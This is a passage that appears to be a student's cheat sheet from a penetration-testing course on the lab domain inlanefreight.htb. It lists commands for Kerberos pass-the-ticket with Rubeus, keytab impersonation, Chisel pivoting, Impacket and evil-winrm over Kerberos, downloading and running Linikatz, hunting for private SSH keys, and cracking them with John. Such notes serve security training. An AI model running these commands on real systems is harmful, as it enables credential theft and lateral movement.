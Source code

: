 3. Rubeus - Pass the Ticket for Lateral Movement: `Rubeus.exe asktgt /user:john /domain:inlanefreight.htb /aes256:9279bcbd40db957a0ed0d3856b2e67f9bb58e6dc7fc07207d0763ce2713f11dc /ptt`
## **Pass the Ticket (PtT) from Linux**
1. realm - Check If Linux Machine is Domain Joined: `realm list`
2. PS - Check if Linux Machine is Domain Joined: `ps -ef | grep -i "winbind\|sssd"`
3. Using Find to Search for Files with Keytab in the Name: `find / -name *keytab* -ls 2>/dev/null`
4. Identifying Keytab Files in Cronjobs: `crontab -l`
5. Reviewing Environment Variables for ccache Files: `env | grep -i krb5`
6. Searching for ccache Files in /tmp: `ls -la /tmp`
7. Listing keytab File Information: `klist -k -t /opt/specialfiles/carlos.keytab `
8. Impersonating a User with a keytab:
    1. `klist`
    2. `kinit carlos@INLANEFREIGHT.HTB -k -t /opt/specialfiles/carlos.keytab`
    3. `klist`
9. Connecting to SMB Share: `smbclient //dc01/carlos -k -c ls`
10. Keytab Extract: `python3 /opt/keytabextract.py /opt/specialfiles/carlos.keytab`
11. Log in as user: `su - carlos@inlanefreight.htb`
## **Using Linux Attack Tools with Kerberos**
1. Download Chisel to our Attack Host
2. Connect to MS01 with xfreerdp
3. Execute chisel from MS01
4. Setting the KRB5CCNAME Environment Variable: `export KRB5CCNAME=/home/htb-student/krb5cc_647401106_I8I133`
5. Using Impacket with proxychains and Kerberos Authentication: `proxychains impacket-wmiexec dc01 -k`
6. To use evil-winrm with Kerberos, we need to install the Kerberos package used for network authentication. 
    1. `sudo apt-get install krb5-user -y`
    2. In case the package krb5-user is already installed, we need to change the configuration file /etc/krb5.confn case the package krb5-user is already installed, we need to change the configuration file /etc/krb5.conf:
    ```bash
     [libdefaults]
        default_realm = INLANEFREIGHT.HTB

    <SNIP>

    [realms]
        INLANEFREIGHT.HTB = {
            kdc = dc01.inlanefreight.htb
        }
    ```
    3. Using Evil-WinRM with Kerberos: `proxychains evil-winrm -i dc01 -r inlanefreight.htb`
7. Impacket Ticket Converter: `impacket-ticketConverter krb5cc_647401106_I8I133 julio.kirbi`
8. Importing Converted Ticket into Windows Session with Rubeus: `C:\tools\Rubeus.exe ptt /ticket:c:\tools\julio.kirbi`
### **Linikatz**
1. Linikatz Download and Execution: `wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh`
2. `/opt/linikatz.sh`
## **Hunting for Encoded Files**
1. Hunting for Files: `for ext in $(echo ".xls .xls* .xltx .csv .od* .doc .doc* .pdf .pot .pot* .pp*");do echo -e "\nFile extension: " $ext; find / -name *$ext 2>/dev/null | grep -v "lib\|fonts\|share\|core" ;done`
#### Hunting for **SSH**
1. Hunting for SSH Keys: `grep -rnw "PRIVATE KEY" /* 2>/dev/null | grep ":1"`
2. Encrypted SSH Keys: `cat /home/cry0l1t3/.ssh/SSH.private`
3. John Hashing Scripts: `ssh2john.py SSH.private > ssh.hash`
4. Cracking SSH Keys: `john --wordlist=rockyou.txt ssh.hash`
#### **Cracking Microsoft Office Documents**